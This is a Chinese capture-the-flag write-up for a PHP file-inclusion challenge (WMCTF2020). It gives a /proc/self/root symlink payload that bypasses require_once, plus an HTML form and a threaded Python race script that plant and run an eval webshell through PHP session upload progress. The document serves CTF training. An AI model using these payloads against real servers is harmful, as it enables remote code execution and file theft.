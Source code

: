 # \[WMCTF2020]Make PHP Great Again

## \[WMCTF2020]Make PHP Great Again

## 考点

* require\_once 绕过不能重复包含文件的限制
* 利用PHP\_SESSION\_UPLOAD\_PROGRESS进行文件包含

## wp

给了代码

```php
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

### 第一种做法

PHP最新版的小Trick， require\_once包含的软链接层数较多时once的hash匹配会直接失效造成重复包含

[php源码分析 require\_once 绕过不能重复包含文件的限制](https://www.anquanke.com/post/id/213235)对这个做法做了详细的解释

> php的文件包含机制是将已经包含的文件与文件的真实路径放进哈希表中，当已经`require_once('flag.php')`，已经include的文件不可以再require\_once。
>
> /proc/self指向当前进程的/proc/pid/，/proc/self/root/是指向/的符号链接，想到这里，用伪协议配合多级符号链接的办法进行绕过

payload

```
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

### 第二种做法

利用session.upload\_progress进行文件包含

在PHP>5.4，`session.upload_progress.enabled`这个参数在`php.ini`中默认开启，在上传的过程中会生成上传进度文件，PHP将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中 ，它的存储路径可以在`phpinfo`中查到

```php
开启upload_progress功能
session.upload_progress.enabled = on

当文件上传结束后，php将会立即清空对应session文件中的内容
session.upload_progress.cleanup = on

session.upload_progress.prefix = "upload_progress_"
session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
```

还要有一个选项

```
session.use_strict_mode=off
```

其表示对cookie中的sessionid可控，默认就是off

对于本题，是一个文件包含漏洞，可以利用`session.upload_progress`将恶意语句写入session文件，再去利用竞争在session清空前包含session文件，达到Getshell的目的。

问题是这里并没有用session\_start()开启session，还有如何获取session的位置

1. 如果`session.auto_start=on`，则PHP在接收请求的时候会自动初始化session，不再需要执行`session_start()`。但是这个选项默认关闭
2. `session.use_strict_mode`默认值为`0`，此时用户是可以自己定义`PHPSESSID`，并且PHP会自动初始化session，并产生一个键值，这个键值由`session.upload_progress.prefix`和`session.upload_progress.name`组成，最后被写入session文件里，该文件保存为`/tmp/sess_PHPSESSID`

这里利用竞争有两个方式，一个是burp，先在本地写个html的上传页面，然后抓包，加一下`PHPSESSID`，在送去爆破就可以了

```html
<!DOCTYPE html>
<html>
<body>
<form action="http://5bee85f4-0831-4fcf-a4c2-f33a607684b0.node3.buuoj.cn/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123<?php eval($_POST["cmd"]);?>" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
```

![](../../.gitbook/assets/image-20210126191003609.png)

![](../../.gitbook/assets/image-20210126191049440.png)

![](../../.gitbook/assets/image-20210126191116451.png)

另外一种是用脚本，但是BUU有限制，脚本太快了可能跑不出来

```python
#coding=utf-8 
import io
import requests
import threading
sessid = 'peri0d'
data = {"cmd":"system('whoami');"} 
def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( 'http://5bee85f4-0831-4fcf-a4c2-f33a607684b0.node3.buuoj.cn/', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('peri0d.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post('http://5bee85f4-0831-4fcf-a4c2-f33a607684b0.node3.buuoj.cn/?file=/tmp/sess_'+sessid,data=data)
        if 'peri0d.txt' in resp.text:
            print(resp.text)
            
            event.clear()
        else:
            print('++++++++++++++++')
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in xrange(1,30): 
            threading.Thread(target=write,args=(session,)).start()
        for i in xrange(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
```

## 小结

1. 利用文件包含进行Getshell的方式还有利用phpinfo页面进行Getshell、`php7 segment fault`特性Getshell和利用日志文件Getshell

